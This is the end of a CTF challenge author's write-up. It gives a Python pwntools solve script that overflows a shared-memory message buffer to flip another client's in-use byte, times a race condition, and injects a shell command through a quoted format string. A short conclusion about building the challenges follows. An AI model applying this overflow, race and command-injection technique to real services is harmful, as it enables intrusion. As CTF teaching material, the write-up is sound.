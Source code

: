 ```python
    #init client1
    client1.sendlineafter(":",f"{id}");
    client1.sendlineafter(":",f"{password}");
    client1.sendlineafter(":","FOO");

    #init client2
    client2.sendlineafter(":",f"{id}");
    client2.sendlineafter(":",f"{password}");
    client2.sendlineafter(":","BAR");

    #at this point both messages have an allocated space
    client1.sendlineafter(">", "A"*0xe7) #send a full message to overwrite the in use byte of client2's message 
    #this makes it so that it will select the same space as client2 for the next message

    client2.sendlineafter(">", '!fmt \\nlife could be a dream') #send the message so the in use byte is set to send, now the server will check the message 

    #wait until FILTER, marks the start of parsing. wait 1.2 seconds for the race con
    r.recvuntil("FILTER")
    time.sleep(1.2)

    #overwrite the shared memory
    client1.sendline("!fmt hello';ls /tmp;echo 'world")

    client2.interactive()


if __name__ == "__main__":
    main()
```

# Conclusion
Overall, I had a great time developing challenges for this CTF! I learned a lot about developing in C, as well as about IPC. I can't wait for next year, when I get a chance to make even better challenges with all that I learn before then!
